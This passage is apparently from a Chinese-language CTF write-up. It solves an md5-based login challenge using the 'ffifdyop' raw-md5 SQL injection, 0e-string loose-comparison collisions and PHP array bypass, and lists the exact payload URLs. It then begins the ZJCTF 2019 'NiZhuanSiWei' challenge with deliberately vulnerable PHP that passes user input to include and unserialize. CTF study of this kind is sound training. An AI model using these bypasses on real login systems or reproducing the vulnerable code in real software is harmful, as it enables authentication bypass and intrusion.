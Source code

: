 ### 题目

进去就是个输入框，别的啥也没有，输入一下试试，在返回包中抓到提示字段`Hint: select * from 'admin' where password=md5($pass,true)`，这说明我们的后台是把我们的输入转换为`md5`，进行比较，这里我们采用一个特殊值`ffifdyop`，这个数进行`md5`之后的值为`276F722736C95D99E921722CF9ED621C`，而MySQL会把`Hex`编码，转为`Ascii`进行使用，而这段代码的`Hex`解码为`'or'6�]��!r,��b`，与前面构成了一个永真式，进行绕过，进入下一部分，阅读源码

```php
<?php
$a = $GET['a'];
$b = $_GET['b'];

if($a != $b && md5($a) == md5($b)){
// wow, glzjin wants a girl friend.
```

这里是一个**md5弱等于**的问题，**弱等于**会把以`0e`开头作为`0`处理，所以我们只要找出两个`md5`值为`0e`开头的字符串即可，进入下一部分

```php
<?php
error_reporting(0);
include "flag.php";

highlight_file(__FILE__);

if($_POST['param1']!==$_POST['param2']&&md5($_POST['param1'])===md5($_POST['param2'])){
    echo $flag;
```

这次换为了**强等于**，有两种思路，得到结果

- 找出真正相等的字符串，**md5不安全性**
- 数组绕过

### payload

```
/?password=ffifdyop
/?a=s878926199a&b=s155964671a
/?param1[]=1&param2[]=2
```

## NiZhuanSiWei

> ZJCTF 2019

### 题目

进去发现源码

```php
<?php  
$text = $_GET["text"];
$file = $_GET["file"];
$password = $_GET["password"];
if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        echo "Not now!";
        exit(); 
    }else{
        include($file);  //useless.php
        $password = unserialize($password);
        echo $password;
    }
}
else{
    highlight_file(__FILE__);
}
```